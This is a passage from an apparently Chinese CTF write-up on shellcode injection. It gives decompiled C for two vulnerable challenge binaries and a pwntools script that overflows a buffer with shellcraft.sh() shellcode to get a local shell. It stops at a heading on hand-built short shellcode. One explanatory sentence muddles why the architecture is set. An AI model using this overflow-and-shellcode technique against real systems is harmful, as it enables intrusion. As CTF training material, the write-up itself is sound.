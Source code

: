 ```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[256]; // [rsp+0h] [rbp-100h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
  mprotect((void *)((unsigned __int64)&stdout & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7);
  memset(s, 0, sizeof(s));
  read(0, s, 0x110uLL);
  strcpy(buff, s);
  return 0;
}
```

EXP，同时要注意这是64位程序，随后我们 shellcraft.sh 默认的是 i386，所以要 p = process('shellcode') 即可

```python
p = process('shellcode')

sys_address = 0x4040A0
context.arch = "amd64"

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x108, b'Z') + p64(sys_address)

# gdb.attach(p)
p.sendline(payload)
p.interactive()
```



#### 手动构造shellcode

该题同样都我们可以构造的 shell 地方 7 权限，但是输入限制在了 0x25，而 pwntools 帮我们生成的是超过这个字节的，所以我们需要自己去构造一个更精简的 shellcode

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[10]; // [rsp+6h] [rbp-Ah] BYREF

  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
  mprotect((void *)((unsigned __int64)&stdout & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7);
  puts("Please.");
  read(0, &name, 0x25uLL);
  puts("Nice to meet you.");
  puts("Let's start!");
  read(0, buf, 0x40uLL);
  return 0;
}
```
